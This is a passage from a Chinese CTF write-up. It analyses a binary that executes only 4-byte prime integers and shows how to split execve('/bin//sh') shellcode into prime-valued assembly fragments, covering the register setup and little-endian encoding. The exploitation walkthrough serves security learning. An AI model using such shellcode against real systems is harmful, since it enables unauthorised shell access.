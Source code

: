 先观察rbp，其最后一次被改变是在 `0x000000000040057D` ，
```nasm
lea     rbp, [rsp+32]
```
这也是将buffer的地址加载到rbp里

再继续分析流程，`_scanf` 读入一个4字节无符号整数到rsi寄存器中存储的地址，即上一步r12的地址（涉及的代码如下），
```nasm
lea     r12, [rsp+28]
...
mov     rsi, r12
```
若输入非空则将那个数传给edi和地址 `[rsp+12]` ，并代入函数 `_Z6millerx` 做判断。判断成功则把那个数传给edx并写入 `[rsp+rax*4+32]` ，即buffer

总结一下，即只有被该程序判定为质数的4字节无符号整数才能被存入buffer并在输入为空后被执行，即我们得让shellcode可以被分成许多4字节质数输入内存。

## 构造shellcode

有用的网站：
- [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly)

要用syscall调用shell，各个寄存器的值应是：
- rax : 0x3b (系统调用号)
- rdi : rsp的地址 (先要把/bin//sh压入栈顶)
- rdx : 0
- rsi : 0

可以考虑将shellcode分解成一系列小片段，较少连续性，易于形成质数。

- 注意：程序为小端序，shellcode执行也是从低地址到高地址，因此对应整数是倒过来看的
  
例如下面：

```nasm
    cdq         ;0x99
    push rdx    ;0x52
    cdq         ;0x99
    pop rsi     ;0x5e

    ;对应的就是0x5e995299
```

下面是作者找到的一些质数对应的汇编代码，基本覆盖全面

```nasm
    cdq
    push rdx
    cdq
    pop rsi

    cdq
    xor rax,rax

    cdq
    cdq
    push rdx
    cdq

    cdq
    push rdx
    pop rdi
    push rdx

    pop rdi
    pop rdi
    pop r9

    shl r9,0x20
```